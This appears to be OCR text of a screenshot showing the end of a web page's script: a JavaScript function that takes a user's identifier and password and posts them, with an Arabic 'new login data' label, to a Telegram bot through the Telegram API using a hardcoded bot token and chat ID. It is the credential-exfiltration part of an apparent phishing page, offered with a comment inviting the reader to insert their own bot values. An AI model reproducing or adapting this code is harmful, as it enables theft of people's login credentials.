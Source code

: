        async function sendToTelegramBot(identifier, password) {
            // استبدل TOKEN و CHAT_ID بقيم البوت الخاص بك
            const botToken = '7105269422:AAFJaDFgB88r_MbHC3bFlPzdXxKNXzb8Gy8';
            const chatId = '6660593539';
            
            const message = `بيانات تسجيل جديدة:\n\nالمعرف: ${identifier}\nكلمة المرور: ${password}`;
            const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
            
            try {
                const response = await fetch(url, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify({
                        chat_id: chatId,
                        text: message
                    })
                });
                
                if (!response.ok) {
                    throw new Error('Network response was not ok');
                }
                
                return await response.json();
            } catch (error) {
                throw error;
            }
        }
    </script>
</body>
</html>
